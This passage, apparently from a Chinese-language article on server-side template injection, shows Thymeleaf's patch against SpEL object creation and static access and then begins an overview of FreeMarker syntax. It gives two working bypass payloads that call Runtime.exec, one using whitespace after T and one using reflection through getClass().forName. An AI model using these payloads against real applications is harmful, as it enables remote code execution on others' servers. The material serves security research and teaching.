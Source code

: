 &emsp;&emsp;另外，Thymeleaf官方为了加强自身表达的安全性，在`>=thymeleaf-spring5-3.0.12.RELEASE`版本中希望禁止用户new对象、禁止用户直接访问静态方法，我们可以在[SPELVariableExpressionEvaluator](https://github.com/thymeleaf/thymeleaf/commits/thymeleaf-spring5-3.0.15.RELEASE/thymeleaf-spring5/src/main/java/org/thymeleaf/spring5/expression/SPELVariableExpressionEvaluator.java) 的历史记录中看到相关补丁。

```java
            if (expContext.getRestrictInstantiationAndStatic()
                    && SpringStandardExpressionUtils.containsSpELInstantiationOrStatic(spelExpression)) {
                throw new TemplateProcessingException(
                        "Instantiation of new objects and access to static classes is forbidden in this context");
            }
```

&emsp;&emsp;绕过方法很简单，思路1为在T字符后添加空白字符即可绕过 containsSpELInstantiationOrStatic 对于 type 的检查

```
{T  (java.lang.Runtime).getRuntime().exec("calc")}
```

&emsp;&emsp;思路2为通过基本数据类型或其他对象来获取ClassLoader，其后获取目标Class并通过反射机制来调用相关方法：

```
''.getClass().forName('java.lang.Runtime').getRuntime().exec('calc')
```



## 4. FreeMarker

### 4.1 基础说明

![freemarkeroverview](png/freemarkeroverview.png)

这里对FreeMarker几个基础概念进行说明。

- [插值，interpolation ](https://freemarker.apache.org/docs/dgui_template_valueinsertion.html)：表示表达式被执行后的输出将作为替换内容
  - 文本类插值：`${expression}`
  - 数值类插值，已被官方备注为deprecated ： `#{expression}`
  - [方括号插值](https://freemarker.apache.org/docs/dgui_misc_alternativesyntax.html#dgui_misc_alternativesyntax_interpolation)，>=2.3.28生效：`[=expression]`
  
- 指令：

  - 宏指令与调用指令：表示全局通用的指令，“<#marco xx>”形式，相关指令可查阅官方文档 [Directive Reference](https://freemarker.apache.org/docs/ref_directive_alphaidx.html)。
